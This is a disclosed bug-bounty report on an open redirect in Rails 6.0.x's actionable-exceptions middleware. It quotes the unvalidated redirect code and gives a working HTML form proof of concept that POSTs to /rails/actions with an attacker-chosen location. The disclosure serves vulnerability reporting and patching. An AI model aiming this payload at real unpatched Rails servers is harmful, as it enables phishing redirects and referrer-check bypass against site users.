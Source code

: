 # Open Redirect (6.0.0 < rails < 6.0.3.2)

## Report Details
- **Report ID**: 904059
- **URL**: https://hackerone.com/reports/904059
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-06-21T02:15:14.122Z
- **Disclosed**: 2020-12-22T16:47:02.435Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Hello,
I was looking at the change log (https://github.com/rails/rails/commit/2121b9d20b60ed503aa041ef7b926d331ed79fc2) for CVE-2020-8185 and found another problem existed.

https://github.com/rails/rails/blob/v6.0.3.1/actionpack/lib/action_dispatch/middleware/actionable_exceptions.rb#L21

```ruby
  redirect_to request.params[:location]
end

private
  def actionable_request?(request)
    request.show_exceptions? && request.post? && request.path == endpoint
  end

  def redirect_to(location)
    body = "<html><body>You are being <a href=\"#{ERB::Util.unwrapped_html_escape(location)}\">redirected</a>.</body></html>"

    [302, {
      "Content-Type" => "text/html; charset=#{Response.default_charset}",
      "Content-Length" => body.bytesize.to_s,
      "Location" => location,
    }, [body]]
  end
```

There was an open redirect issue because the request parameter `location` was not validated.
In 6.0.3.2, since the condition of `actionable_request?` has changed, this problem is less likely to occur.


### PoC


#### 1. Prepare server

Prepare an attackable 6.0.3.1 version of Rails server

```
❯ rails -v
Rails 6.0.3.1

❯ RAILS_ENV=production rails s
...
* Environment: production
* Listening on tcp://0.0.0.0:3000
```

#### 2. Attack server 

Prepare the server for attack on another port.

```html
<form method="post" action="http://localhost:3000/rails/actions?error=ActiveRecord::PendingMigrationError&action=Run%20pending%20migrations&location=https://www.hackerone.com/">
	<button type="submit">click!</button>
</form>
````

```
python3 -m http.server 8000
```

#### 3. Open browser

Open the `http://localhost:8000/attack.html` url in your browser and click the button.
Redirect to `https://www.hackerone.com/` url.

{F876518}

## Impact

It will be fixed with 6.0.3.2 as with CVE-2020-8185(https://groups.google.com/g/rubyonrails-security/c/pAe9EV8gbM0), but I think it is necessary to announce it again because the range of influence is different.

This open redirect changes from POST method to Get Method, so it may be difficult to use for phishing.On the other hand, it may affect bypass of referrer check or SSRF.

## Attachments
- __________2020-06-21_10.26.21.png
